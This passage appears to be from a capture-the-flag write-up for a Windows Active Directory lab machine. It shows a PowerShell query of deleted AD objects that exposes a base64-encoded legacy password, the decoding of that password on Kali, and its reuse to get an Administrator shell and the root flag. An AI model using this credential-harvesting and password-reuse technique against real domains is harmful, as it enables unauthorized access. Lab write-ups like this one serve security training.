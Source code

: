 So i ran the following Powershell command 
~~~
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
~~~
{: .language-powershell}
And once again it returned this object "cascadeLegacyPwd" for the user TempAdmin.
~~~
---snip---
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
---snip---
~~~
{: .language-bash}
~~~

kali@kali:~$ echo -n 'YmFDVDNyMWFOMDBkbGVz' | base64 -d

baCT3r1aN00dles

~~~
{: .language-bash}
Since i remember the Email note saying that the TempAdmin account has the same password as the standard Administrator account i used this to get a shell as Administrator and grab the root flag.

![Root flag](https://jackhack.se/assets/images/cascade/rootflag.png)
{: .full}

